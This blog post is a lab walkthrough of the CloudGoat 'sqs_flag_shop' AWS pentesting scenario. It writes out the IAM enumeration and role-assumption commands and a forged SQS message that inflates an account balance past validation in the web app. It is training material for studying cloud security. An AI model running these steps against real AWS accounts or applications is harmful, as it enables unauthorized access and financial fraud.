








+++
title = 'Hands on Cloud Pentesting: 6 - Cloudgoat sqs_flag_shop'
date = 2025-06-18T12:17:36+05:30
draft = false
series = "Hands on Cloud Pentesting"
tags = ["cloud","aws"]
+++

<!--more-->

## sqs_flag_shop (Easy)

[Scenario Page](https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/cloudgoat/scenarios/aws/sqs_flag_shop/README.md)
### Description
First, start with the SHOP page where you can buy FLAG. The website has a number of pages, and you can see that the source code is exposed. Attackers analyze the code to find vulnerabilities and use their privileges to purchase FLAG.

### Scenario Goal(s)
Buy FLAG successfully on the shop site

### Solution
Start the scenario using the following command
```bash
cloudgoat create sqs_flag_shop
```

I got an email a month back with the subject "Share your feedback with AWS and receive USD 25 AWS credit" which included a survey and after filling that, a month later I received USD 25 AWS credit which is visible at Billing and Cost Management -> Credits. Since this series has a focus on learning AWS pentesting for free I will still include the pricings for the labs I complete (if any) and alternate ways to avoid the cost but having a cushion of USD 25 will be more than enough in case of any lab having small costs associated with it.


This scenario makes use of the following resources:
+ 1 VPC with:
    + Lambda x 1
    + RDS x1
    + EC2 x1
+ SQS
+ IAM Users x 1

It takes a bit of time to spin it all up but once its done, you are provided with access key and secret key for an IAM user and a website url.

Once we configure the profile, we can start enumerating the permissions of the given user.

Our user has one inline policy - `cg-sqs-scenario-assumed-role`. Lets see what that policy gives access to.
```json
// aws iam get-user-policy --user-name cg-sqs-user-cgid5aqajrysbi --policy-name cg-sqs-scenario-assumed-role --profile sqsuser
{
    "UserName": "cg-sqs-user-cgid5aqajrysbi",
    "PolicyName": "cg-sqs-scenario-assumed-role",
    "PolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Action": [
                    "iam:Get*",
                    "iam:List*"
                ],
                "Effect": "Allow",
                "Resource": "*"
            },
            {
                "Action": "sts:AssumeRole",
                "Effect": "Allow",
                "Resource": "arn:aws:iam::1234567890:role/cg-sqs-send-message-cgid5aqajrysbi"
            }
        ]
    }
}
```

Apart from `iam:Get*` and `iam:List*`, we have another Action, `sts:AssumeRole` which allows us to assume the role `cg-sqs-send-message-cgid5aqajrysbi`. Lets see what that role would allow us to do.
```json
// aws iam list-role-policies --role-name cg-sqs-send-message-cgid5aqajrysbi --profile sqsuser
{
    "PolicyNames": [
        "cg-sqs"
    ]
}

// aws iam get-role-policy --role-name cg-sqs-send-message-cgid5aqajrysbi --policy-name cg-sqs --profile sqsuser
{
    "RoleName": "cg-sqs-send-message-cgid5aqajrysbi",
    "PolicyName": "cg-sqs",
    "PolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Action": [
                    "sqs:GetQueueUrl",
                    "sqs:SendMessage"
                ],
                "Effect": "Allow",
                "Resource": "arn:aws:sqs:us-east-1:1234567890:cash_charging_queue"
            }
        ]
    }
}
```
This allows us to [SendMessage](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_SendMessage.html) and [GetQueueUrl](https://docs.aws.amazon.com/AWSSimpleQueueService/latest/APIReference/API_GetQueueUrl.html) on the sqs queue `cash_charging_queue`. 

At this point, we can check out the given website to see what functionality that has to offer.

We can see a shop interface with 3 items listed. The flag item costs `100,000,000` and it seems that we do not have enough balance to purchase it. We also have an option to "charge cash" which sends a post request to `/charge_cash/<amount>`.

Trying to change the amount being charged in the post request results in error "BAD REQUEST"


The reason for this can be seen in the source code of the application which is revealed in the html source of the webpage.

```py
@app.route('/charge_cash/<cash>', methods=['POST'])
def charge_cash(cash):
    cash = int(cash)
    if cash==1 or cash==5 or cash==10:
        msg = {"charge_amount" : cash}
        message_body = json.dumps(msg)
        response = sqs.sqs_client.send_message(
          QueueUrl=sqs.sqs_queue_url, 
          MessageBody=message_body
        )
        time.sleep(10)
        return redirect(url_for('index'))
    else:
        return "BAD Request!!"
```
This shows that we are only allowed to send cash=1,5 or 10 through the web server but since we can send sqs messages through AWS cli using the role we have access to, we can directly send the `message_body` to sqs queue url and there the limit of cash 10 is not applicable.

To do that, first lets assume the role, `cg-sqs-send-message-cgid5aqajrysbi`
```bash
aws sts assume-role --role-arn arn:aws:iam::1234567890:role/cg-sqs-send-message-cgid5aqajrysbi --role-session-name sqssend --profile sqsuser

aws configure --profile sqssend

aws configure set aws_session_token --profile sqssend <session_token>
```

Now we can retreive the [sqs queue url](https://docs.aws.amazon.com/cli/latest/reference/sqs/get-queue-url.html)
```json
//aws sqs get-queue-url --queue-name cash_charging_queue --profile sqssend --region us-east-1
{
    "QueueUrl": "https://queue.amazonaws.com/1234567890/cash_charging_queue"
}
```
Next, send a message to the queue url we got using [send-message](https://docs.aws.amazon.com/cli/latest/reference/sqs/send-message.html) with the payload:
```json
{"charge_amount":100000000}
```

```json
// aws sqs send-message --queue-url https://queue.amazonaws.com/1234567890/cash_charging_queue --message-body '{"charge_amount":100000000}' --profile sqssend --region us-east-1
{
    "MD5OfMessageBody": "09e8057f2a35de68a6342a04b048c010",
    "MessageId": "c8bcace3-3978-430a-91e5-428584803b99"
}
```

If we check back with the website now, we can see that our exploit is successful and we have enough balance to order the flag.

Order the flag, then go to /receipt to get the flag.


> Flag = FLAG{sqs-shop-super-secret-item}

Stop the scenario.
```bash
cloudgoat destroy sqs_flag_shop
```